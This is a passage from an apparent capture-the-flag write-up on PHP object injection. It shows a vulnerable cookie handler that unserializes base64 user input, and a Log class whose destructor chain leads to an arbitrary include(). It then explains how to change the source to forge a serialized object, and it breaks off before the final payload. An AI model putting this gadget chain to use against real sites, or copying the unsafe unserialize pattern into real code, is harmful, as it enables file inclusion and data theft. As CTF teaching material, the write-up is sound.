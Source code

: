 * __log.class.php__

```php
<?php
  class Log {
    private $type_log;

    function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>
```

* __index.php__

```php
<?php
    include("user.class.php");

    if(!isset($_COOKIE['user'])) {
        setcookie("user", base64_encode(serialize(new User('sk4'))));
    } else {
        unserialize(base64_decode($_COOKIE['user']));
    }
    echo "This is a beta test for new cookie handler\n";
?>
```

We can see that when we visit the wesbite we are shown the output present in `index.php` and it generate cookie for user name `sk4`.

If we look at the code in `user.class.php` it's calling the `Welcome` class but the `Log` class from `log.class.php` isn't called anywhere. So this is what I did, I edited the source to call the `Log class`.

To do so edit the `user.class.php` in the following manner

* In the `__construct` function change `$this->wel = new Welcome();` to `$this->wel = new Log();`
* In the end of the file right before `?>` add the following like `echo base64_encode(serialize(new User('admin')));`(you can use anyname you want)

So the code would become

```php
<?php
  include("log.class.php");
  class Welcome {
    public function handler($val) {
      echo "Hello " . $val;
    }
  }
  class User {
    private $name;
    private $wel;
    function __construct($name) {
      $this->name = $name;
      $this->wel = new Log();
    }
    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }
```